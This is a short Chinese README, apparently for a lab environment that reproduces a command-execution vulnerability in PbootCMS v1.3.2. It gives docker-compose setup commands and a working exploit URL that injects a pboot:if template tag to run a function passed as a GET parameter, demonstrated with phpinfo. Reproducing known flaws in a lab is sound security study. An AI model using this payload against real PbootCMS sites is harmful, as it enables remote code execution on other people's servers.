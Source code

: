 ## 启动环境

```
docker-compose build
docker-compose up -d
```

## 漏洞一:
命令执行漏洞
```
http://127.0.0.1/index.php/index/index?keyword={pboot:if(1)$a=$_GET[b];$a();//)})}}{/pboot:if}&b=phpinfo

```


![](README/4868C955-CD48-4A86-86FE-5C442D00D7C1.png)


## 链接:
[PbootCMS v1.3.2命令执行和SQL注入漏洞 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/167138)